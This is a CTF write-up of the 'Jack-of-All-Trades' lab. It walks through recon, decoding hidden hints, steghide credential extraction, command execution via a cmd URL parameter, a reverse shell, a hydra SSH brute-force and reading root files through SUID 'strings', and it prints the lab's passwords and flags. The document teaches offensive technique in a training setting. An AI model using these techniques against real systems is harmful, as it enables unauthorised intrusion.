## TL;DR

In this challenge we find the credentials for the `cms`, after a lot of research. Then, we are being given the ability to achieve `RCE` using `cmd` parameter.

We move to user `jack` using wordlist we find at `/home`. We lastly move to `root` or at least read the root flag using `SUID` bit on `strings`.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with apache http server and port `80` with ssh. (switched from the regular order)
```bash
PORT   STATE SERVICE REASON         VERSION                                                                                   
22/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.10 ((Debian))                                                            
|_http-server-header: Apache/2.4.10 (Debian)                                                                                  
|_http-title: Jack-of-all-trades!                                                                                             
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)                                                               
| http-methods:                                                                                                               
|_  Supported Methods: OPTIONS GET HEAD POST                                                                                  
80/tcp open  ssh     syn-ack ttl 62 OpenSSH 6.7p1 Debian 5 (protocol 2.0)                                                     
| ssh-hostkey:                                                                                                                
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)                                                                
| ssh-dss AAAAB3NzaC1kc3MAAACBANucPy+D67M/cKVTYaHYYpt9bqPviYbWW/4+BFnUOQoNordc9Pc+8CauJqNFiebIqpKYKXhpEAt82m1IjQh8EmWdJYcQnkMF
gukM3/mGjngXTbUO8vAbi53Zy8wwOaBlmRK9mvfAYEWPkcjzRmYgSp51TgEtSGWIyAkc1Lx6YVtDAAAAFQCsIgZJlrsYvAtF7Rmho7lIdn0WOwAAAIEApri35SyOop
hhqX45JcDpVASe3CSs8tPMGoOc0I9ZtTGt5qyb1cl7N3tXsP6mlrw4d4YNo8ct0w6TjsxPcJjGitRQ+SILWHy72XZ5Chde6yewKB5BeBjXrYvRR1rW+Tpia5kyjB4s
0mGB7o3FMjX/dT+ISqYvZeVa7mQnBo0f0XMAAACAP89Ag2kmcs0FBt7KCBieH3UB6gF+LdeRVJHio5p4VQ8cTY1NZDyWqudS1TJq1BAToJSz9MqwUwzlILjRjuGQtylpssWSRbHyM0aqmJdORSMOCMUiEwyfk6T8+Vmama/AN7/htZeWBjWVeVEnbYJJQ6kPSCvZodMdOggYXcv32CA=
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDbCwl2kyYWpv1DPDF0xQ5szNR1muMph6gJMJFw9VubKkSvHMWfg7CaCNcyo1QR5dg9buIygIGab8e9aigJdjQUY4XeBejwGe+vAA8RtPMoiLclR6g5qAqVQSeZ2FBzMrmkyKIgsSDb8tP+czpzn/Gp1HzDtiYUvleTvO2xEZ3k2Xz8YDvPlkV4zAIPzZSSZ8BABPYsBrePIwMpr/ZjeeiE59DlkUIv8x8M0z9KOls9zaeqFsbWrfMZzFgtPP+KILN6GrGijxgcGq5mDwvr67oHL3T3FtpReE+UZ/CafmzO/2Ls8XstmUiNeMaNBYtc6703/84bpL0uLp/pkILS8eqX
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA) 
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBO4p2E6NglzDeP40tJ42LjWaVrOcINmy42cspAv8DSzGD0K+V3El/tyGBxCJlMMR7wbN0968CQl61x0AkkAHLFk=
|   256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC6jYsDJq1mWTDx7D+p3mMbqXhu9OhhW2p1ickLCdZ9E
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `jackofalltrades.thm` to my `/etc/hosts`.

### Find credentials for cms and execute commands using cmd url param

First, I tried to access `http://jackofalltrades.thm:22/` and firefox blocked me. I needed to go to `about:config`, and then search for `network.security.ports.banned.override`. There, I added string rule with the port `22`.



Now, we can access port `22` on the browser



On the source code we can find 2 notes:
```html
<!--Note to self - If I ever get locked out I can get back in at /recovery.php! -->
<!--  UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg== -->
```

I decoded the base64 string:
```bash
┌──(agonen㉿kali)-[~/thm/JackofAllTrades]
└─$ echo -e 'UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg==' | base64 -d
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
```

Alright, we got the password `u?WtKSraq`, which will be used later.

I went to `/recovery.php`, we can see some login portal page



I tried to login with the credentials we found before, it didn't work.
Then, I checked the source code and found this note
```html
<!-- GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=  -->
```

I took it to CyberChef, and there I execute base32 decode, from hex decode and rot13, to get some message



```bash
Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```

I went ot the link `bit.ly/2TvYQ2S`



That reminds me stenography. we can see in the source code of the home page several images, let's download them and tried to use `steghide` to find the hidden message, maybe with the password `u?WtKSraq` we already find.



I tried first with the header, and it worked
```bash
┌──(agonen㉿kali)-[~/thm/JackofAllTrades]
└─$ steghide extract -sf header.jpg -p 'u?WtKSraq'
wrote extracted data to "cms.creds".
```

Now, we can read `cms.creds`
```bash
┌──(agonen㉿kali)-[~/thm/JackofAllTrades]
└─$ cat cms.creds 
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY
```

Using these credentials I manage to login into the cms.



I tried to give `?cmd=id` as asked, and got command execution



Let's paste the penelope payload.
We got the reverse shell



### Move to user jack using wordlist found at /home

I viewed the folder `/home` and saw some wordlists of passwords of `jack`
```bash
www-data@jack-of-all-trades:/home$ ls -la
total 16
drwxr-xr-x  3 root root 4096 Feb 29  2020 .
drwxr-xr-x 23 root root 4096 Feb 29  2020 ..
drwxr-x---  3 jack jack 4096 Feb 29  2020 jack
-rw-r--r--  1 root root  408 Feb 29  2020 jacks_password_list
```

I tried to use su bruteforcing using [https://github.com/carlospolop/su-bruteforce](https://github.com/carlospolop/su-bruteforce), but it didn't work



So, I downloaded the wordlist and used `hydra` to brute force the ssh service. Remember this is port `80`.
```bash
┌──(agonen㉿kali)-[~/thm/JackofAllTrades]
└─$ hydra -l jack -P jacks_password_list ssh://jackofalltrades.thm:80                                                                        
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-01-27 10:42:38
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 24 login tries (l:1/p:24), ~2 tries per task
[DATA] attacking ssh://jackofalltrades.thm:80/
[80][ssh] host: jackofalltrades.thm   login: jack   password: ITMJpGGIqg1jn?>@
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-01-27 10:42:43
```

We find the password `ITMJpGGIqg1jn?>@`
```bash
ssh jack@jackofalltrades.thm -p 80 # ITMJpGGIqg1jn?>@
```



I downloaded the file `user.jpg`:


and the user flag as shown in the image is:
```bash
securi-tay2020_{p3ngu1n-hunt3r-3xtr40rd1n41r3}
```

### Privilege Escalation to Root using SUID bit on strings

I first checked for our groups and uid:
```bash
jack@jack-of-all-trades:/var/mail$ id                                                                                                                       
uid=1000(jack) gid=1000(jack) groups=1000(jack),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),115(bluetooth),1001(dev)
```

We can see we are inside group `dev`, let's search for some files from this group:
```bash
jack@jack-of-all-trades:/var/mail$ find / -group dev 2>/dev/null       
/usr/bin/strings
/usr/bin/find
```

Okay, I checked for the permissions of the file `/usr/bin/strings`
```bash
jack@jack-of-all-trades:/var/mail$ ls -la /usr/bin/strings 
-rwsr-x--- 1 root dev 27536 Feb 25  2015 /usr/bin/strings
```

It looks like the ownership is `root`, and that there is `SUID` bit. What if we'll try to read `/root/root.txt`, or any other root file? The SUID should get into action.
```bash
jack@jack-of-all-trades:/var/mail$ /usr/bin/strings /root/root.txt     
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}
```

Okay, we got the root flag.
Here you can see the different, between case with SUID and case without

